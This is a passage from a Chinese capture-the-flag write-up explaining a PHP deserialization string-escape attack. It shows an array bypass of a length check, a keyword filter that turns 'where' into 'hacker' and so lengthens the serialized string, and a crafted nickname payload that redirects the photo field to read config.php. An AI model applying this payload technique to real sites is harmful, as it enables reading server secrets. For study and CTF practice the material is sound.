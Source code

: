    可以看到前两个参数好像都没什么办法绕过，但第三个参数好像可以绕过

   这里我们可以发现前面的正则时匹配所有字母和数字，也就是nickname是字母和数字的话，就是真，而strlen()函数可以使用数组绕过，这样一来nickname就完全被我们控制了。

   ```php
   $profile['phone'] = $_POST['phone'];
   $profile['email'] = $_POST['email'];
   $profile['nickname'] = $_POST['nickname'];
   $profile['photo'] = 'upload/' . md5($file['name']);
   $user->update_profile($username, serialize($profile));
   ```

3. 构造payload
   
   由于需要利用file_get_contents函数读取config.php

   ```php
   <?php
   $profile['phone'] = '18888888888';
   $profile['email'] = 'admin@qq.com';
   $profile['nickname'] = 'admin';
   $profile['photo'] = 'eval.jpg';
   echo serialize($profile);
   ```

   我们需要使序列化的结果为

   ```php
   a:4:{s:5:"phone";s:11:"18888888888";s:5:"email";s:12:"admin@qq.com";s:8:"nickname";s:5:"admin";s:5:"photo";s:10:"config.php";}
   ```

   我们可以控制admin，所以我们可以让nickname为：

   ```php
   ";}s:5:"photo";s:10:"config.php";}
   # 数组序列化之后会多一层`{}`所以再第一个`s`前多了一个`}`
   ```

   序列化结果：

   ```php
   a:4:{s:5:"phone";s:11:"18888888888";s:5:"email";s:12:"admin@qq.com";s:8:"nickname";s:34:""};s:5:"photo";s:10:"config.php";}";s:5:"photo";s:8:"eval.jpg";}
   ```

   此时的payload是无法反序列化的，因为还少34个字符

   ```php
   public function filter($string) {
      $escape = array('\'', '\\\\');
      $escape = '/' . implode('|', $escape) . '/';
      $string = preg_replace($escape, '_', $string);
      $safe = array('select', 'insert', 'update', 'delete', 'where');
      $safe = '/' . implode('|', $safe) . '/i';
      return preg_replace($safe, 'hacker', $string);
   }
   ```

   这里我们发现select,insert,update,delete都是六个字符，唯独where是五个字符，而把where替换成hacker，则多出来一个字符正好可以填充，那么使用34个where就可以解决这个问题
